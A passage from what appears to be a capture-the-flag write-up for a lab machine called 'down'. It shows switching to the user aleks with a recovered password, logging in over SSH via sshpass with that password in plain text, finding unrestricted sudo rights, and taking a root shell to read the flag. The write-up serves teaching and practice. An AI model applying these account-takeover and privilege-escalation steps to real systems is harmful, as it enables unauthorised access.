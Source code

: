 The password works with `su` to get a shell as aleks:

```

www-data@down:/var/www$ su - aleks
Password: 
aleks@down:~$

```

It also works for SSH:

```

oxdf@hacky$ sshpass -p '1uY3w22uc-Wr{xNHR~+E' ssh aleks@10.129.234.87
Warning: Permanently added '10.129.234.87' (ED25519) to the list of known hosts.
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 System information as of Fri May  2 10:49:31 PM UTC 2025

  System load:           0.0
  Usage of /:            57.6% of 9.75GB
  Memory usage:          15%
  Swap usage:            0%
  Processes:             156
  Users logged in:       0
  IPv4 address for eth0: 10.129.234.87
  IPv6 address for eth0: dead:beef::250:56ff:feb9:c2e
aleks@down:~$ 

```
*Disclaimer - I like to use `sshpass` to pass passwords via the command line for CTF blog posts because it makes it very clear what I’m doing. Never enter real credentials into the command line like this.*

#### Shell as root

aleks can run any command as any user with `sudo`:

```

aleks@down:~$ sudo -l
[sudo] password for aleks: 
Matching Defaults entries for aleks on down:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User aleks may run the following commands on down:
    (ALL : ALL) ALL

```

`sudo -i` will return a root shell:

```

aleks@down:~$ sudo -i 
root@down:~#

```

And I can get the root flag:

```

root@down:~# cat root.txt
87bb9869************************

```